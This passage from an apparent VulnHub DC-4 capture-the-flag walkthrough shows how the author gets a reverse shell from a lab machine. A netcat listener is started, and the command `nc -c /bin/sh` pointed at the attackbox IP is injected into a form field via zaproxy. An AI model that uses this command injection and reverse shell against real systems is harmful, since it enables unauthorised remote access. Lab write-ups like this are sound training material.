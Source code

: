 We do have execution privileges as `www-data` and since our attackbox resides on the same subnet as DC-4, we can simply do the following to land a reverse shell:  
1. Open a new terminal on the attackbox and start a `nc` listener:  
  `nc -nvlp 10000`  
  - `nc` - executes the nc binary on our attackbox  
  - `-n` - disables DNS  
  - `-v` - verbose mode  
  - `-l` - listen mode  
  - `-p` - let's us specify the port to listen on  
  - `10000` - port 10000 we'll listen on

![webserver - setup nc listener](/images/CTF/VulnHub/DC-Series/DC-4/webserver-revshell-listener.png "webserver - setup nc listener")

2. Prep the following code into the radio button's value:  
  `nc -c /bin/sh 192.168.0.1 10000`  
  - `nc` - executes the nc binary
  - `-c` - tells nc to execute a shell command
  - `/bin/sh` - shell command to execute, in this case... open a shell
  - `192.168.0.1` - IP of my attackbox, where a `nc` listener is ready on port 10000  
  - `10000` - the attackbox port to connect to  


![webserver - zaproxy code injection to revshell](/images/CTF/VulnHub/DC-Series/DC-4/webserver-zaproxy-revshell.png "webserver - zaproxy code injection to revshell")

3. With the listener running and the code injection ready, click "Send" in zaproxy and watch our listener connect to DC-4's IP.  
To confirm we're connected, which directory we're currently working out of, etc, I ran a few extra commands in the example below.
